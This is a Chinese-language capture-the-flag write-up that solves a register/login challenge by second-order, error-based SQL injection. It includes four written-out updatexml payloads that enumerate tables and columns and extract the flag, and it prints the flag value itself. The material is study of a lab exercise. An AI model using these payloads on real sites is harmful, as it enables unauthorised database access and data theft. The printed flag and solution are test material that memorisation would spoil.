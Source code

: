 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-5
---
```


## flag
`flag{fff9faec-e377-4f1d-84e3-66a4cb97ba28}`
## 思路

1. 打开网页，显示可以注册和登录。

   注册是一个写入数据库的过程，登录是查询数据库的过程，所以可以大致推测本题可能存在二次注入。

<img src="../images/image-20210106212214557.png" alt="image-20210106212214557" style="zoom:50%;" />

2. 首先测试注册过程是否存在waf，输入如下，会弹出invalid string。

   <img src="../images/image-20210106212522917.png" alt="image-20210106212522917" style="zoom:50%;" />

3. 使用bp测试被过滤的字符串，如下：

   <img src="../images/image-20210106213526181.png" alt="image-20210106213526181" width="40%;" />

4. username `test\`   然后进入修改密码的页面，可以看到下面的报错提示。

   可以推测后台的sql语句可能为：

   `select * from users where username="" and pwd=""`

   闭合符号为"

<img src="../images/image-20210106213702251.png" alt="image-20210106213702251" style="zoom:50%;" />

5. 页面显示了报错信息，说明我们可以尝试报错注入。

   - 获取数据表信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#`

   - 获取列名信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#`

   - 获取flag:

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#`

     `username=peri0d"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('f')))),1))#`

## 总结

   - 本题的核心是SQL二次注入，是学习SQL二次注入的比较好的例子。
   - 报错型注入
   - 当flag很长时需要两次获取，reverse函数的使用
   - 待完善。。。